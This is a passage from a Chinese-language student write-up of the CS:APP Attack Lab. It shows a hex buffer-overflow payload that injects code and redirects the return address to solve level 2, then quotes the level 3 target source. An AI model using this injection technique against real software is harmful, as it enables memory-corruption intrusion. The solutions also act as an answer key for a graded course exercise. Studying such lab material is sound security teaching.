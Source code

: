 这里我写的和大多数的不同，大多数答案可能还有原来的rsp地址，但是我觉得程序流已经走完了，被劫持之后走完了，并不明白

![image-20211218223855234](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211218223855234.png)

### tips

上面并没有通过样例，因为我们没有返回输入，我们最终的结果都没有进行输入，因此，我们这里需要把rsp的值填写进去

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00

```

也就是这样的，这样才能够正确的保证输入

这里并不是Rop，我们需要完整的流程，为什么需要恢复rsp的初始值呢？

要保证栈平衡

![image-20211222170547443](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211222170547443.png)

### level3

我们从提纲中，把level3的代码复制出来



![image-20211220220424113](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211220220424113.png)

```
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval) {
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval) {
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

```
